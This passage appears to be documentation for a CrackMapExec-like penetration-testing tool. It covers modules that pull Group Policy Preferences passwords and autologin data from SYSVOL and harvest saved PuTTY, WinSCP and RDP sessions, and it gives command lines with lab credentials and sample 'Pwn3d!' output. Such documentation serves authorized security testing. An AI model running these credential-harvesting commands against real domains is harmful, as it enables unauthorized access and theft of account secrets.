 **Example Usage:**
```
~# cmx smb 192.168.1.110 -u Administrator -p 'AAdmin!23' -M gpp_autologin
```
**Expected Results:**
```
SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:PACIFIC) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [+] PACIFIC\Administrator:AAdmin!23 (Pwn3d!)
GPP_AUTO... 192.168.1.110    445    DC2016A          [+] Found SYSVOL share
GPP_AUTO... 192.168.1.110    445    DC2016A          [*] Searching for Registry.xml
~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## gpp_password              
Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.  
Target needs to be a Domain Controller? (Only way it worked for me)

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | true | true 

**Options:**
```
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M gpp_password
```
**Expected Results:**
```
SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:PACIFIC) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [+] PACIFIC\Administrator:AAdmin!23 (Pwn3d!)
GPP_PASS... 192.168.1.110    445    DC2016A          [+] Found SYSVOL share
GPP_PASS... 192.168.1.110    445    DC2016A          [*] Searching for potential XML files containing passwords
~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## invoke_sessiongopher      
Digs up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher  

Multiple_Host | Requires LA | Requires DA 
|---|---|---|
true | true | false 

**Options:**
```
    THOROUGH   Searches entire filesystem for certain file extensions (default: False)
    ALLDOMAIN  Queries Active Direcotry for a list of all domain-joined computers and runs SessionGopher against all of them (default: False)    
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M invoke_sessiongopher
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## invoke_vnc                